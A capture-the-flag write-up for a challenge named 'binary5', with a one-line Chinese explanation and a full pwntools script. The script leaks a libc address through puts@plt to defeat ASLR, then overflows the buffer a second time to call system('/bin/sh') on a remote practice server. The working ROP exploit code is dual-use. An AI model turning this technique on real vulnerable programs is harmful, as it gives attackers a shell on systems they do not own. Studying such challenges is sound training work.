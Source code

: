 ## binary5

題目必須利用ROP bypass ASLR，先ROP ret到`puts@plt`，然後利用puts leaks出`puts@GOT`的位址，接著跳回`main()`，再次buffer overflow執行`system('/bin/sh')`

### exploit
```python
#!/usr/bin/env python3
from pwn import *
import time

context.update(arch='amd64', os='linux')

binary = ELF('ret2plt')
libc = ELF('libc.so.6')
rop = ROP(binary)

payload1 = cyclic(40).encode()
payload1 += flat(rop.rdi.address, binary.got[b'puts']) # rdi = puts@got
payload1 += p64(binary.plt[b'puts']) # ret to puts@plt
payload1 += p64(binary.symbols[b'main']) # ret to main()

r = remote('pwnhub.tw', 56026)
r.sendline(payload1)

r.recvuntil("boom !\n")
puts_addr = r.recvuntil("\n", drop=True)
puts_addr = int.from_bytes(puts_addr, byteorder='little')
base = puts_addr - libc.symbols[b'puts']

sh_addr = base + next(libc.search('/bin/sh\x00'))
system_addr = base + libc.symbols[b'system']

payload2 = cyclic(40).encode()
payload2 += flat(rop.rdi.address, sh_addr) # rdi = "/bin/sh"
payload2 += p64(system_addr) # ret to system()
r.sendline(payload2)
r.interactive()
```
